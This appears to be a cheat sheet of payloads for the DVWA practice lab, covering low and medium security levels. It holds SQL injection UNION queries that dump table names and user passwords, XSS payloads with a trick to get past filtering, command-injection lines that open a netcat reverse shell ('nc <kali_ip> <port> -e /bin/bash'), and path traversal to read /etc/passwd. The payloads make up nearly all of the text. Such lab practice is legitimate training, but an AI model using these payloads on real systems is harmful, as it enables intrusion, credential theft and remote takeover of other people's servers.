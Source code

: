 # SQL Injection
<h3>low security level</h3>

- To find all tables, from a database called “dvwa”: 
`1' UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema = 'dvwa'#`

 - To find all columns, from the database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema ='dvwa'#`

 - To find all column names of the table named “users”, from a database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'dvwa'#`

 - To get the content of one column of the table named “users”, from a database called “dvwa”: `1' UNION SELECT password,null FROM dvwa.users#`
<h3>medium security level</h3>
 
 - To find all tables, from a database called “dvwa”: `1 union select table_name,null from information_schema.tables where table_schema = 0x64767761`
 - Note: `0x64767761` is DB name `dvwa` but decoded to hex u can use this website for decoding : https://cryptii.com/pipes/hex-decoder
 
 - To find all columns, from the database called “dvwa”: `1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema = 0x64767761`

 - To find all column names of the table named “users”, from a database called “dvwa”: `1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 0x7573657273 AND table_schema = 0x64767761`

 - To get the content of one column of the table named “users”, from a database called “dvwa”: `1 UNION SELECT password,null FROM dvwa.users`

# XSS
<h3>low security level</h3>

- To reflect on the screen your name using reflected / stored XSS: `<script>alert('$YOUR_NAME')</script>`

<h3>medium security level</h3>

- To reflect on the screen your name using reflected / stored XSS: `<sCript>alert('$YOUR_NAME')</Script>`
- Note: use uppercase in the word `<script>` to ignore website filtering

# Command Execution 
<h3>low security level</h3>

- To show the Path: `; pwd`
- To show the list of files and directories: `; ls -la`
- First run in terminal: `nc -lvp <port>`
- To connect remotely with the kali-Linux using netcat nc in DVWA: `; nc <kali_ip> <port> -e /bin/bash`
- Note: u can get your `kali_ip` from writing in terminal: `ifconfig`
 => then u will get your kali ip: `inet <kail_ip>`
<h3>medium security level</h3>

- To show the Path: `| pwd`
- To show the list of files and directories: `| ls -la`
- First run in terminal: `nc -lvp <port>`
- To connect remotely with the kali-Linux using netcat nc in DVWA: `| nc <kali_ip> <port> -e /bin/bash`

# File Inclusion:

<h3>low/medium security level</h3>

- To run a local file inclusion `/etc/passwd` and see the content of it: `/../../../../../etc/passwd`
